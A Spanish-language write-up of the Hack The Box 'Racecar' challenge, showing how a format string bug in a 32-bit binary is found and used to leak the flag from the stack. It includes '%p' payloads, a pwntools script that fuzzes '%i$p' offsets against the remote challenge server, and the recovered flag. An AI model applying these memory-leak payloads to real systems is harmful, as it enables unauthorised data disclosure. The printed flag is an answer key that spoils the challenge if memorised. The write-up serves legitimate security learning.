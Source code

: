 ```yaml
---
title: Racecar
description: Did you know that racecar spelled backwards is racecar? Well, now that you know everything about racing, win this race and get the flag!
date: 2024-07-02
toc: true
pin: false
image:
 path: /assets/img/htb-writeup-challenges/pwd_logo.png
categories:
  - Hack_The_Box
  - Challenges
tags:
  - hack_the_box
  - pwd
  - format_string_attack

---
```

## Information Gathering

```terminal
/home/kali/Documents/htb/challenges/racecar:-$ unzip racecar.zip
racecar
```

Dentro del '.zip', encuentro unicamente un ejecutable 'racecar'.

```terminal
/home/kali/Documents/htb/challenges/racecar:-$ file racecar
racecar: ELF 32-bit LSB pie executable, Intel 80386, version 1 (SYSV), dynamically 
linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0, 
BuildID[sha1]=c5631a370f7704c44312f6692e1da56c25c1863c, not stripped
```

```terminal
/home/kali/Documents/htb/challenges/racecar:-$ ./racecar
```

![](/assets/img/htb-writeup-racecar/racecar1.png)

Basicamente, el juego consiste en eleigr entre las distintas opciones para ganar.

Las opciones ganadoras son el auto 1 y la carrera 2, o el auto 2 y la carrera 1.

Cuando ganas, te permite ingresar caracteres y luego vuelve a imprimirlos.

<https://dogbolt.org/>

![](/assets/img/htb-writeup-racecar/racecar2.png)

Analizando el código, encuentro que es vulnerable a un 'format string attack', como se indica en la línea 577 de 'Ghidra'. 

También requiere un archivo llamado 'flag.txt', como se indica en la línea 566 de 'Ghidra'.

---

## Vulnerability Exploitation

Creé un archivo 'flag.txt' y agregué algunos datos que serían fáciles de identificar en formato hexadecimal, en este caso ‘A’.

```terminal
/home/kali/Documents/htb/challenges/racecar:-$ echo 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA' > flag.txt
```

Después de hacer esto, volví a correr el ejecutable y esta vez, después de ganar la carrera, pasé '%p' varias veces como dato.

<https://owasp.org/www-community/attacks/Format_string_attack>

```terminal
/home/kali/Documents/htb/challenges/racecar:-$ ./racecar

--------------------------------------------------------
      ______                                       |xxx|
     /|_||_\`.__                                   | F |                                                                             
    (   _    _ _\                                  |xxx|                                                                             
*** =`-(_)--(_)-'                                  | I |                                                                             
                                                   |xxx|                                                                             
                                                   | N |                                                                             
                                                   |xxx|                                                                             
                                                   | I |                                                                             
                                                   |xxx|                                                                             
             _-_-  _/\______\__                    | S |                                                                             
           _-_-__ / ,-. -|-  ,-.`-.                |xxx|                                                                             
            _-_- `( o )----( o )-'                 | H |                                                                             
                   `-'      `-'                    |xxx|                                                                             
--------------------------------------------------------                        
                                                                                                                                     
Insert your data:                                                                                                                    
                                                                                                                                     
Name: name                                                                                                                           
Nickname: nick                                                                                                                  
                                                                                                                                     
[+] Welcome [name]!                                                                                                                  
                                                                                                                                     
[*] Your name is [name] but everybody calls you.. [nick]!                                                                       
[*] Current coins: [69]

1. Car info
2. Car selection
> 2
                                                                                                                                   
Select car:                                                                                                                          
1.
2.
> 2

Select race:                                                                                                                         
1. Highway battle                                                                                                                    
2. Circuit                                                                                                                           
> 1                                                                                                                                  
                                                                                                                                     
[*] Waiting for the race to finish...                                                                                                
                                                                                                                                     
[+] You won the race!! You get 100 coins!                                                                                            
[+] Current coins: [169]                                                                                                             
                                                                                                                                     
[!] Do you have anything to say to the press after your big victory?                       
> %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p

The Man, the Myth, the Legend! The grand winner of the race wants the whole world to know this: 
0x5725b200 0x170 0x56639dfa 0x60 0x6 0x26 0x2 0x1 0x5663a96c 0x5725b200 0x5725b380 0x41414141 0x41414141 0x41414141 0x41414141 0x41414141 0x41414141 0x41414141 0x41414141 0x41414141 0x41414141 0x414141 0x98fb6500 (nil) 0x5663cf8c 0xffb88558
```

Desconozco la posición de la variable que contiene el valor de la bandera en el 'stack', así que llevaré a cabo fuzzing en el 'stack' hasta que logre filtrar la flag.

Y para hacer eso es necesario el siguiente script.


```python
from pwn import *

flag = ''

# Let's fuzz x values
for i in range(100):
    try:
        # Connect to server
        io = remote('83.136.253.251', 42831)
        io.sendlineafter(b'Name: ', b'anas')
        io.sendlineafter(b'Nickname: ', b'something')
        io.sendlineafter(b'> ', b'2')
        io.sendlineafter(b'> ', b'2')
        io.sendlineafter(b'> ', b'1')
        # Format the counter
        # e.g. %i$p will attempt to print [i]th pointer (or string/hex/char/int)
        io.sendlineafter(b'> ', '%{}$p'.format(i).encode())
        # Receive the response
        io.recvline()
        io.recvline()
        result = io.recv()
        if not b'nil' in result:
            print(str(i) + ': ' + str(result))
            try:
                # Decode, reverse endianess and print
                decoded = unhex(result.strip().decode()[2:])
                reversed_hex = decoded[::-1]
                print(str(reversed_hex))
                # Build up flag
                flag += reversed_hex.decode()
            except BaseException:
                pass
    except EOFError:
        pass

# Print and close
info(flag)
io.close()
```

```terminal
/home/kali/Documents/htb/challenges/racecar:-$ python3 exp.py

[+] Opening connection to 94.237.53.113 on port 56321: Done
12: b'0x7b425448\n'
b'HTB{'
[+]
13: b'0x5f796877\n'
b'why_'
[+]
14: b'0x5f643164\n'
b'd1d_'
[+]
15: b'0x34735f31\n'
b'1_s4'
[+] 
16: b'0x745f3376\n'
b'v3_t'
[+]
17: b'0x665f3368\n'
b'h3_f'
[+]
18: b'0x5f67346c\n'
b'l4g_'
[+]
19: b'0x745f6e30\n'
b'0n_t'
[+]
20: b'0x355f3368\n'
b'h3_5'
[+]
21: b'0x6b633474\n'
b't4ck'
[+]
22: b'0x7d213f\n'
b'?!}'
```

HTB{why_d1d_1_s4v3_th3_fl4g_0n_th3_5t4ck?!}

> <a href="https://labs.hackthebox.com/achievement/challenge/1521382/242" target="_blank">***Litio7 has successfully solved Racecar from Hack The Box***</a>
{: .prompt-info style="text-align:center" }
